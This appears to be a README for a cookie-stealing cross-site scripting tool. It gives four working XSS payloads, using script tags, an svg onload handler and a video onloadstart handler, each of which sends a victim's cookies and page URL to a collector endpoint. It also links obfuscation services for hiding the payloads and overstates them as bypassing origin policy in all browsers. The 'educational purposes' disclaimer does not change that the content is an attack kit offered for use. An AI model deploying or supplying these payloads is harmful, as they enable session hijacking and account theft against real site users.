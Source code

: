 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

    <sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>

    <svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?       u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>

    <video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

    <sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>
<p>For encrypting your payload:</p>
<a href="https://obfuscator.io/">obfuscator.io</a></br>
<a href="http://www.jsfuck.com/">jsfuck.com</a>
</br>
From: <a href="https://cyberzone.az/">CyberZone.az</a>

